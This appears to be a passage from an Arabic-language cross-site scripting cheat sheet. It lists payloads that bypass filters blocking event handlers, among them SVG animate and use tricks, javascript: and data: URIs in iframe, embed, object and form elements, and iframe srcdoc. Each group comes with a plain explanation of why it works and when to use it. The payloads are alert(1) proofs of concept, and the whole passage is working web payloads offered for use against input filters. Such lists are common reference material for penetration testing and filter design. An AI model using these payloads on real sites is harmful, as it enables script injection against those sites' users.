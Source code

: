 **لماذا يعمل؟**
- `<animate>` يُغيّر خصائص مثل `href` إلى `javascript:alert(1)` بدون معالجات أحداث.
- `<use>` يُحمل SVG خارجي يحتوي على `<embed>` مع `javascript:`.
- يتجاوز مرشحات تبحث عن `on*` أو `src`.

**📌 استخدمها لما:**

- `on*` كلها محظورة.
    
- لكن `animate` أو `use` غير محظورين.
    
- وأحيانًا متصفحك هو اللي ينفذ الكود (Firefox أفضل في ده).
    

🧪 **مثال:**

```html
<svg><a><animate attributeName=href to=javascript:alert(1)></svg>
```

**الخلاصة:**
ناقلات SVG بدون معالجات مثل `<svg><a><animate attributeName=href to=javascript:alert(1)>` فعالة لأنها تستخدم `<animate>` و`<use>` لتجاوز مرشحات الأحداث.

---

### ** ناقلات بدون معالجات أحداث (Vectors without Event Handlers)**
{ #XSS--ALL--Event--Payload  /  #ideas_for_url }
**الشرح البسيط:**
يُستخدم عندما تمنع المرشحات معالجات الأحداث. تعتمد على علامات HTML أو بروتوكولات مثل `javascript:` و`data:`، بعضها يتطلب تفاعل المستخدم.

**أمثلة تعمل:**
- `<script>alert(1)</script>`: يُنفذ JavaScript مباشرة.
- `<script src=data:,alert(1)>`: يُنفذ عبر بروتوكول `data:`.
- `<iframe src=javascript:alert(1)>`: يُنفذ عبر إطار.
- `<embed src=javascript:alert(1)>`: يُنفذ عبر عنصر `<embed>`.
- `<a href=javascript:alert(1)>click`: يُنفذ عند النقر.
- `<math><brute href=javascript:alert(1)>click`: يُنفذ عبر `<math>`.
- `<form action=javascript:alert(1)><input type=submit>`: يُنفذ عند إرسال النموذج.
- `<form><button formaction=javascript:alert(1)>click`: يُنفذ عند النقر.
- `<object data=javascript:alert(1)>`: يُنفذ عبر `<object>`.
- `<iframe srcdoc=<svg/onload=alert(1)>>`: يُنفذ عبر محتوى `<iframe>`.
- `<svg><script xlink:href=data:,alert(1) />`: يُنفذ عبر SVG.

**لماذا يعمل؟**
- بروتوكولات مثل `javascript:` و`data:` مدعومة في المتصفحات.
- علامات مثل `<iframe>`، `<embed>`، و`<form>` تسمح بتنفيذ JavaScript.
- يتجاوز مرشحات تحظر معالجات الأحداث.

**📌 استخدمها لما:**

- `onerror`, `onclick` وكل الـ `on*` مرفوضين.
    
- وبتحتاج حمولة ما فيهاش `on`.
    
